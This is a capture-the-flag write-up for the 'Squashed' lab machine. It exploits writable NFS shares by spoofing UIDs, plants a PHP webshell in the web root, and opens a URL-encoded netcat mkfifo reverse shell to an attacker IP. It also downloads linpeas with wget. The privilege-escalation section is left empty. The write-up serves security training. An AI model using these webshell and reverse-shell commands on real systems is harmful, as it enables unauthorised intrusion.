

# Squashed (Easy)

<figure><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36214/udp6  mountd
|   100005  1,2,3      37093/tcp6  mountd
|   100005  1,2,3      42899/tcp   mountd
|   100005  1,2,3      48117/udp   mountd
|   100021  1,3,4      39287/tcp6  nlockmgr
|   100021  1,3,4      43699/tcp   nlockmgr
|   100021  1,3,4      46570/udp   nlockmgr
|   100021  1,3,4      53611/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
```

Notes:

* <mark style="color:yellow;">SSH</mark> is a possible entry point
* <mark style="color:yellow;">HTTP</mark> is a possible entry point (Apache 2.4.41)
* 2049 <mark style="color:yellow;">NFS</mark> -- Must enumerate for information disclosure etc.

## Enumeration

### Port 80 - HTTP (Apache 2.4.41)

* Added IP address of machine to /etc/hosts under squashed.htb

Directory Bruteforce (Dirsearch):

```
dirsearch -u http://squashed.htb
```

* <mark style="color:yellow;">No lucrative findings</mark>

### Port 2049 - NFS

List available NFS shares:

```
showmount -e squashed.htb

/home/ross    *
/var/www/html *
```

Mount the home directory:

```
sudo mount -t nfs squashed.htb:/home/ross /mnt
```

Enumerate mounted directory:

```
find /mnt -ls
```

<figure><figcaption></figcaption></figure>

<mark style="color:yellow;">We can see that the contents of this directory are all 1001. This is the default permission set for a newly created user. It is 1001 because we do not have a user on our machine with those permissions. So what happens if we try to access it with a newly created user?</mark>

Create user:

```
adduser hacker
```

We can now see **hacker** instead of id 1001 because we have added **hacker** to the machine with the same permissions:

<figure><figcaption></figcaption></figure>

Switch user to **hacker**:&#x20;

```
su hacker -c bash
```

There is not anything of use in here let's mount the next directory.

We will need to unmount the current directory first:

```
sudo umount /mnt
sudo mount -t nfs squashed.htb:/var/www/html /mnt
```

After viewing the contents, we see a new id of 2017. We can set this with `usermod`:

```
sudo usermod -u 2017 hacker
```

Switch user:&#x20;

```
su hacker -c bash
```

We can now see that we have access to everything with our new id of 2017:

<figure><figcaption></figcaption></figure>

It appears that we are in the <mark style="color:yellow;">web root directory. Can we write to this?</mark>

```
echo "Hacker-here" > /mnt/hacker.html
```

<figure><figcaption></figcaption></figure>

Yes, we can! Time to place a webshell in this directory and gain access to this machine!

## Exploitation

Since we found out that /var/www/html is writeable through NFS exploitation, we can place a webshell in here and gain access to the webserver!

Adding webshell into /var/www/html:

```
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/backdoor.php
```

Commands can be executed through the web browser via <mark style="color:yellow;">`?cmd=whoami`</mark>

<figure><figcaption></figcaption></figure>

Let's grab a reverse shell through revshells and gain access to this machine



* nc mkfifo
* Be sure to URL encode it

This is what my URL encoded reverse shell looked like:

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.10%201337%20%3E%2Ftmp%2Ff
```

Fix your shell:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```



If you are using a Terminal emulator such as Terminator, I found it easier to use the default terminal program for reverse shells.

<mark style="color:yellow;">The user.txt flag can be found in alex's home directory!</mark>

## Privilege Escalation

* Let's transfer and run linpeas

On Kali -- Start HTTP server for file transfer:

```
python3 -m http.server
```

On reverse shell -- wget for catching hosted file:

```
wget http://<kali_ip_here>:8000/linpeas_linux_amd64
```

Change permissions and execute file:

```
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

* I was unable to find something of use

### Local enumeration

### PrivEsc vector

##

